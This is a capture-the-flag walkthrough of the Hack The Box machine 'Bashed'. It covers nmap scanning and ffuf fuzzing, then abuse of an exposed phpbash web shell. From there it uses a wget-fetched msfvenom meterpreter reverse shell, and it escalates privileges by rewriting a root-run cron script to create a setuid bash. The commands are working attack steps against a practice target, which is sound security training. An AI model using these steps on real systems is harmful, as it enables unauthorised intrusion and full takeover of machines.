

# Target
[Bashed](https://app.hackthebox.com/machines/Bashed) is a fairly easy machine which focuses mainly on fuzzing and locating important files.

# Scan
```
nmap -sS -sC $TARGET_IP
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-12 20:04 CET
Nmap scan report for 10.129.65.63
Host is up (0.031s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Arrexel's Development Site

Nmap done: 1 IP address (1 host up) scanned in 1.67 seconds
```

# Foothold
As there is a single remote service available (HTTP) our attack surface is quite narrow. Let's start with little fuzzing.
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$TARGET_IP/FUZZ -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" -e .php,.html
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.65.63/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Extensions       : .php .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 25ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 26ms]
contact.html            [Status: 200, Size: 7805, Words: 2630, Lines: 157, Duration: 29ms]
about.html              [Status: 200, Size: 8193, Words: 2878, Lines: 155, Duration: 25ms]
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 25ms]
php                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 23ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 24ms]
dev                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 24ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 24ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 25ms]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 26ms]
single.html             [Status: 200, Size: 7477, Words: 2740, Lines: 155, Duration: 26ms]
scroll.html             [Status: 200, Size: 10863, Words: 4284, Lines: 196, Duration: 25ms]
.html                   [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 25ms]
.php                    [Status: 403, Size: 291, Words: 22, Lines: 12, Duration: 27ms]
```

As we can see there are plenty of accessible directories and one of them (`dev`) looks particularly interesting. After browsing it (http://$TARGET/dev) we've got directory listing, and with that we can spot next interesting thing, `phpbash.php` script, which seems to be some kind of PHP web shell! 



With use of this web shell we could actually grab user flag.
```
cat /home/arrexel/user.txt
********************************
```

I would not say that we have fully gained foothold as this web shell has limitations. However with it's help we could easily spawn reverse shell. Brief analysis of HTML / JS code generated by `phpbash.php` shows that there is parameter named `cmd` passed in HTTP POST request, which we could prove with simple `curl`.
```
curl -X POST http://$TARGET_IP/dev/phpbash.php -d 'cmd=id'
```
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's start gaining reverse shell foothold with running Metasploit `multi/handler` with `linux/x64/meterpreter/reverse_tcp` payload.
```
msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload linux/x64/meterpreter/reverse_tcp; run"
```
```
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => linux/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.212:4444
```

Next we will expose `linux/x64/meterpreter/reverse_tcp` over HTTP.
```
msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f elf \
    -o shell && \
python3 -m http.server
```

And then download and run it on target.
```
CMD=$(echo "wget -P /tmp http://$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1):8000/shell; chmod 700 /tmp/shell; /tmp/shell")
curl -X POST http://$TARGET_IP/dev/phpbash.php -d "cmd=$CMD"
```


```
[*] Sending stage (3045380 bytes) to 10.129.65.63
[*] Meterpreter session 1 opened (10.10.14.212:4444 -> 10.129.65.63:53126) at 2025-02-12 21:48:51 +0100

meterpreter > getuid
Server username: www-data
```

Foothold gained! Let's proceed with privileges escalation.

# Privileges escalation
Let's drop into system command shell.
```
meterpreter > shell
```

And start with listing sudo privileges.
```
sudo -l
```
```
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

It seems that we can run all commands as `scriptmanager` without specifing this users's password. Let's dig deeper by listing `/`
```
ls -la /
```
```
total 608
drwxr-xr-x  23 root          root            4096 Jun  2  2022 .
drwxr-xr-x  23 root          root            4096 Jun  2  2022 ..
-rw-------   1 root          root             212 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root            4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root            4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root            4140 Feb 12 08:08 dev
drwxr-xr-x  89 root          root            4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root            4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root              32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root            4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root            4096 Jun  2  2022 lib64
drwx------   2 root          root           16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root            4096 Dec  4  2017 media
drwxr-xr-x   2 root          root            4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root            4096 Dec  4  2017 opt
dr-xr-xr-x 178 root          root               0 Feb 12 08:08 proc
drwx------   3 root          root            4096 Feb 12 08:09 root
drwxr-xr-x  18 root          root             520 Feb 12 08:09 run
drwxr-xr-x   2 root          root            4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager   4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root            4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root               0 Feb 12 08:23 sys
drwxrwxrwt  10 root          root          528384 Feb 12 13:01 tmp
drwxr-xr-x  10 root          root            4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root            4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root              29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

We can see that there is `scipts` directory owned by `scriptmanager`. Let's 'impersonate' as this user (with `/bin/bash`) and check content of this directory.
```
sudo -u scriptmanager /bin/bash
ls -la /scripts
```
```
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Feb 12 13:22 test.txt
```

Content of single `test.py` script.
```
cat -n /scripts/test.py
```
```
     1  f = open("test.txt", "w")
     2  f.write("testing 123!")
     3  f.close
```

And content of `test.txt` created by this script.
```
cat /scripts/test.txt
```
```
testing 123!
```

Looking at all this, we can draw the following conclusion: as only `root` has permission to write to `test.txt` and as this file is being constantly updated (you could double check this with `ls -l --full-time /scripts/test.txt`) this would mean that `root` user is periodically running `/scripts/test.py`. What is important is that `scriptmanager` user has permissions to modify this script! And we will exploit this vulnerability, by making `test.py` creating a root shell.

```
cat <<EOF> /scripts/test.py
import os;
os.system("cp /bin/bash /tmp/root_shell && chmod +s /tmp/root_shell")
EOF
```

And after ~1 minute we should have `/tmp/root_shell` ready.
```
ls -l /tmp/root_shell
```
```
-rwsr-sr-x 1 root root 1037528 Feb 12 13:45 /tmp/root_shell
```

All that is left is to use it and grab root flag.
```
/tmp/root_shell -p
id
uid=1001(scriptmanager) gid=1001(scriptmanager) euid=0(root) egid=0(root) groups=0(root),1001(scriptmanager)
cat /root/root.txt
********************************
```